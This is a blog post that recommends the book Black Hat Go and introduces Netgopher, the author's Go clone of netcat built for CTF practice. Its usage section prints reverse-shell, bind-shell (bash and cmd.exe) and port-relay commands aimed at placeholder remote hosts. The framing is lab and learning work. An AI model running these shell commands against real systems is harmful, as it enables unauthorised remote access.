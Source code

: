 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre) - Check them out, they're very nice!
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting around to reading for an age. Long story short - I loved the first couple of chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new skillset to your box of tricks. Go will let you build tools (simple or complex, up to you!) that compile to a single (fairly small) 'blob', with simple concurrency and thread management, excellent cross-compilation (No Wine!) and a compilation/testing command that's almost as simple as developing a Python script.  

I'd suggest that working with Go like this is probably going to be a bit easier if you are comfortable working with Bash or maybe a little bit of Python (even just being able to read these will be enough), but don't let that hold you back if you're keen.  I've gone through the first chapter or two so far and in just a couple of evenings, the book has guided me through
 some really nice simple TCP tooling. 

My exposure to compiled languages stems from awkward Mathematical problems at Univeristy and learning Go was a little outfacing because I wanted to avoid that again, but Go is giving me serious Python vibes in the prevalence and usability of (mostly core) Libraries, I think I might be a convert! If you're worried about the learning curve, you could always get the basic syntax and conventions down via Codeacademy, Sololearn etc. etc. etc.

# Netgopher

Enter Netgopher. *What is that?* I hear you cry? Well to be honest, it's the same example Netcat mimic that every person starting on Black Hat Go or Black Hat Python (Another No Starch belter) puts on their Github! That said, I've tried to make my super simple implementation of Netcat (built using Go, following the first two chapters of the book, of course) a bit more useful for myself as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it up and added some better command line parsing and options goodness, whilst most of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP connections, command execution and built-in  port relaying (best bit IMHO). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection relay. A Pair of listeners are started, then a connecting relay is set up, by starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this script and have a go? If I can do this in a couple of evenings, you definately can! Read the source and play with NetGopher as set out below and happy hacking! 

The rest of this post is actually a glorified excerpt from the README on the [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel free to check that out too if you know where you're going from here.

# Installation

You can **but probably shouldn't**  get Netgopher by running the following command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing this way will only install ng in your local $GOPATH; additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/connection pair:

![Listener & connect example image](/assets/images/posts/netgopher/basic.gif)
{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of listeners and connections.A listener is started, then a connection made from the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this peaked your interest why not grab a copy of Netgopher and have a messaround, or read the source? If you have any thoughts, I welcome issues, pulls, emails, tweets and more, just hit one of the socials below. I hope I've insipired you to check out some Go, or even program a little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, [Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap sales of No Starch Press books- that's where I got my copy (in eBook form) and it might be a good idea to keep your eyes peeled for similar sales in future. Peace!

